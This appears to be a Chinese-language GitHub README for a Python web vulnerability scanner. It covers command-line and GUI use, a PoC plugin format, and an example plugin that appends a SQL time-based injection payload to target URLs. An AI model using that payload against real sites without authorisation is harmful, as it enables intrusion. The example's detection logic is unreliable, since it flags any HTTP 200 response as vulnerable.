 # jiujiuwebscanner

## 初衷

* 没找到集成化扫描的工具，遂动手写了一个框架
* poc后面扩展

## 工具说明

### 一、简介

* poc主要测试web可能存在的漏洞

### 二、工具环境

* 完全的python环境

### 三、使用方式

* 命令行
* GUI

### 四、使用详解

#### 1、命令行利用方式
*进入 jiujiuwebscanner.py 文件所在目录，运行cmd程序

* 指定 url 主要部分（如：https://domain.com/?s=1）
```
python jiujiuwebscanner.py -t
```
*  指定url 文件（在同级目录下的urls.txt文件中输入想要扫描的url）
```
python jiujiuwebscanner.py -T
```
* 指定单个poc的绝对路径（形如 `D:\hackTools\hacktools\WebScan\jiujiuwebscanner\pocs\sql\SqlTimeInject.py`）
```
python jiujiuwebscanner.py -f
```
*  指定poc的目录，程序会遍历扫描目录下poc文件
```
python jiujiuwebscanner.py -F
```
* 指定扫描线程，支持多线程漏洞检测
```
python jiujiuwebscanner.py -n
```
* 开启GUI界面
```
python jiujiuwebscanner.py --gui
```
#### 2、GUI利用方式
* 选择输入单个url 或者 引用 url 文件
* 选择单个poc文件 或者 pocs 目录批量扫描
* 自由组合利用方式，单个扫描和批量扫描不能同时使用
#### 3、文件保存
* 扫描完成文件会自动保存在当前目录的名为result.txt的文件中，如果文件存在，则需要删除该文件，否则会导致扫描结果无法保存。

### POC 说明

*所有poc脚本都规范放在pocs文件中
#### 一、编写格式（.py）
```
import requests

def detect_vulnerability(target):
    url = target
    result  = False
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'}
    payload = "...这里填写拼接字符串..."
    try:
        response = requests.get(url + payload, headers=headers, timeout=5)
        ...
        这里写入验证逻辑，返回字典result
        result = {
            'target': ...,
            'vulnerability': ...,
            'poc': ...
            }
        ...
        else:
            result = False
    except requests.RequestException as e:
        print(f'[-] Failed to connect to the target: {str(e)}')
    return result
```
*result{} 作为GUI面板漏洞检测结果和命令行检测结果的输出
#### 二、案例
```
import requests

def detect_vulnerability(target):
    url = target
    result  = False
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'}
    payload = "' AND (SELECT sleep(5))--"
    try:
        response = requests.get(url + payload, headers=headers, timeout=5)
        if response.status_code == 200:
            result = {
            'target': target,
            'vulnerability': 'SQL time injection',
            'poc': "' AND (SELECT sleep(5))--"
            }
        else:
            result = False
    except requests.RequestException as e:
        print(f'[-] Failed to connect to the target: {str(e)}')
    return result
```

### 其他

* 含有AI创作部分
* 期望同道者可添加提交POC

### 部分图鉴
![](https://cdn.jsdelivr.net/gh/JiujiuPictures/pictures@main/blog%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-29%20203718.png)

![](https://cdn.jsdelivr.net/gh/JiujiuPictures/pictures@main/blog%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-29%20210323.png)
